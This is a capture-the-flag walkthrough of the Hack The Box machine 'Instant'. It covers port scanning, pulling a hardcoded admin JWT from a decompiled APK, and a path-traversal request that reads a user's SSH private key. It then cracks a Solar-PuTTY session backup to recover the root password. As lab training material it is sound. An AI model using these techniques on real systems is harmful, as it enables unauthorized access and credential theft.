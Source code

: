 # HTB: Instant

![](../.gitbook/assets/504cbbbf52112e416f8f6f16a708a590.png)

## Port Scanning

```r
nmap -sC -sV -A -T4 -o port_scan 10.10.11.37
Nmap scan report for 10.10.11.37
Host is up (0.055s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 31:83:eb:9f:15:f8:40:a5:04:9c:cb:3f:f6:ec:49:76 (ECDSA)
|_  256 6f:66:03:47:0e:8a:e0:03:97:67:5b:41:cf:e2:c7:c7 (ED25519)
80/tcp open  http    Apache httpd 2.4.58
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Did not follow redirect to http://instant.htb/
Device type: general purpose
Running: Linux 5.X
OS CPE: cpe:/o:linux:linux_kernel:5.0
OS details: Linux 5.0
Network Distance: 2 hops
Service Info: Host: instant.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 993/tcp)
HOP RTT      ADDRESS
1   54.27 ms 10.10.14.1
2   54.47 ms 10.10.11.37
```



## APK Analysis

![](../.gitbook/assets/77a9ed10882f906d9e25817c321e1a2e.png)

Download **instant.apk** and open it through **JADX**

![](../.gitbook/assets/b4a3310b3d9a6c37b48ea5abceb16cb5.png)

Is signed an API: **/api/v1/view/profile** associated to **mywalletv1.instant.htb**, add this subdomain to **/etc/hosts/**. In the autorhization header we have a JWT Token:

```r
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.**********
```

Try to contact the API providing the JWT token:

![](../.gitbook/assets/56e479b5143e43554b43834fd47bfbb9.png)

```http
HTTP/1.1 200 OK
Date: Wed, 27 Nov 2024 10:57:42 GMT
Server: Werkzeug/3.0.3 Python/3.12.3
Content-Type: application/json
Content-Length: 236
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive

{
   "Profile":{
      "account_status":"active",
      "email":"admin@instant.htb",
      "invite_token":"instant_admin_inv",
      "role":"Admin",
      "username":"instantAdmin",
      "wallet_balance":"10000000",
      "wallet_id":"f0eca6e5-783a-471d-9d8f-0162cbc900db"
   },
   "Status":200
}

```

Looking deeper in apk's source code:

![](../.gitbook/assets/7d59b53a5de20dba595454f9a5901146.png)

Let's add this domain to /etc/hosts and we'll get the accesso to swagger-ui:

![](../.gitbook/assets/ed549b0eaba7fc96a67fd26e5c7731c9.png)

As we can see some apis are locked, but we can unlock them using the JWT token found in the source code of the **apk**:

![](../.gitbook/assets/fe72cdf91a5b8d6dcd7bd6dc3da5e0a1.png)

By clicking on **Authorize** button we'll be able to unlock all apis in the swagger and going under **Logs** section:

![](../.gitbook/assets/6489e7b31d07142da4ac3bc60e46f79c.png)

Through the api: **/api/v1/admin/read/log?log\_file\_name=1.log** we are able read files' content:

![](../.gitbook/assets/60bc89f506fcfa153688152cd7e10220.png)

Pass the request in Burp and try include sensible files. Injecting **../.ssh/id\_rsa** into **log\_file\_name** parameter we are able to read **shirohige**'s SSH private key:

![](../.gitbook/assets/993417cd9496bbef357fc9255d4f6fbd.png)



## Initial Access

Let's fix the **id\_rsa**'s format in VSCode replacing all spaces and useless characters:

![](../.gitbook/assets/e12537eb0b597dd64c4c0a5e4ce4e79d.png)

Fix **id\_rsa** permission and use to break in shirohige's SSH:

```r
-----BEGIN OPENSSH PRIVATE KEY-----
    b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
    .....
    -----END OPENSSH PRIVATE KEY-----
```

```r
┌──(kali㉿kali)-[~/HTB/Instant]
└─$ chmod 600 id_rsa
```

![](../.gitbook/assets/5b44635c699b9705e3761a3c36bd4d30.png)

```shell
userflag:092473a67eb7a**********
```



## Privilege Escalation

I ran **LinPeas** looking for something allowing privesc and it found:

![](../.gitbook/assets/b90c5fb4b8b4274ba018f5e25047a1a3.png)

I downloaded **instant.db** and opened it through [SQLite Viewer](https://inloop.github.io/sqlite-viewer/) :

![](../.gitbook/assets/29d32cfb01b73d9c2ed2f526d23dfa0f.png)

I tried to crack vanessa's and admin's passwords, but didn't succeeded. Going back to linpeas output i noted that there is a file in **/opt/backups/Solar-PuTTY**:

![](../.gitbook/assets/10b16d0c87ad2586375ca7870f252738.png)

Analyzing file content we have:

![](../.gitbook/assets/7f7056b0fe0d1e977c4f46457cf01cd4.png)

It seems to be a sessions backup file from SolarPuTTY, which may contains useful information about SSH sessions, such as usernames or passwords. After a long research on google i found two useful tools to crack thi **.dat**:

-[SolarPuttyCracker](https://github.com/Ak4izZ/SolarPuttyCracker) for Linux -[SolarPuTTYDecrypt](https://github.com/VoidSec/SolarPuttyDecrypt/tree/master) for Windows

I used the first one:

```r
┌──(SolarPuttyCracker-HSs_2f3g)─(kali㉿kali)-[~/HTB/Alert/SolarPuttyCracker]
└─$ python3 SolarPuttyCracker.py ../sessions-backup.dat -o ../sessions_cracked -w /usr/share/wordlists/rockyou.txt 
```

After running the command, in the output file we'll get all SSH sessions, with clear credentials, including root password:

![](../.gitbook/assets/31a58751d6d2385c5aa1fecde806e4d7.png)

```json
{
    "Sessions": [
        {
            "Id": "066894ee-635c-4578-86d0-d36d4838115b",
            "Ip": "10.10.11.37",
            "Port": 22,
            "ConnectionType": 1,
            "SessionName": "Instant",
            "Authentication": 0,
            "CredentialsID": "452ed919-530e-419b-b721-da76cbe8ed04",
            "AuthenticateScript": "00000000-0000-0000-0000-000000000000",
            "LastTimeOpen": "0001-01-01T00:00:00",
            "OpenCounter": 1,
            "SerialLine": null,
            "Speed": 0,
            "Color": "#FF176998",
            "TelnetConnectionWaitSeconds": 1,
            "LoggingEnabled": false,
            "RemoteDirectory": ""
        }
    ],
    "Credentials": [
        {
            "Id": "452ed919-530e-419b-b721-da76cbe8ed04",
            "CredentialsName": "instant-root",
            "Username": "root",
            "Password": "**********",
            "PrivateKeyPath": "",
            "Passphrase": "",
            "PrivateKeyContent": null
        }
    ],
    "AuthScript": [],
    "Groups": [],
    "Tunnels": [],
    "LogsFolderDestination": "C:\\ProgramData\\SolarWinds\\Logs\\Solar-PuTTY\\SessionLogs"
}                                 
```

Use contained root password to login in it and catch the flag:

![](../.gitbook/assets/84594a655a1f071ca4fbed41ef516d6a.png)

```shell
rootflag:727938c0341**********
```
